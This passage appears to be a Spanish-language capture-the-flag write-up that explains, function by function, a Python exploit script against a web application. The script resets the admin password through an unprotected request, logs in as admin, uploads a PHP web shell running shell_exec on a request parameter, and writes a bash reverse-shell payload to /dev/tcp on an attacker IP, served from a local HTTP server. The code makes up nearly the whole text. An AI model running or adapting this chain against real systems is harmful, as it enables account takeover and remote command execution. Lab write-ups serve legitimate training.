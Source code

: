 ```py
    post_data = { 
       "username": f'{usr}',
       "password": f'{passw}'
     }

    r = s.post(urlLogin,data=post_data)
```
La que sigue se encarga de cambiarle la contraseña al usuario admin:

```py
def changePass():

    post_data= {

        "password": "password",
        "id": "1"

    }
    r = s.post(urlIndex,data=post_data)
    print("[+] Contraseña de admin cambiada con éxito")
```

Luego, tenemos el inicio de sesión como admin:
```py
def loginadmin():

     post_data = { 
       "username": "admin",
       "password": "password"
     }

     r = s.post(urlLogin,data=post_data)
```

La siguiente función se encarga de subir el archivo malicioso a la máquina víctima:
```py
def upload():

        payload = """  <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?> """ 

        files  = {'fileToUpload':('shell.phtml',payload)

            }
        print("[+] Subiendo archivo malicoso")
        r = s.post(urlAdmin,files=files)
```

Finalmente, tenemos la función que crea el index.html y el servidor http:
```py
def html_payload():

    with open("index.html","w") as file:
        Shebang = "#!/bin/bash\n"
        payload =f'bash -i >& /dev/tcp/{ipHost}/1234 0>&1'
        file.write(Shebang)
        file.write(payload)

def http_server():

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as so:
            so.bind(('localhost', 80))
            http_server = subprocess.Popen(["python3", "-m", "http.server", "80"])
    except OSError:
            print("\n[-] El puerto 80 se encuentra en uso, no se ha podido ejectuar el servidor")
```
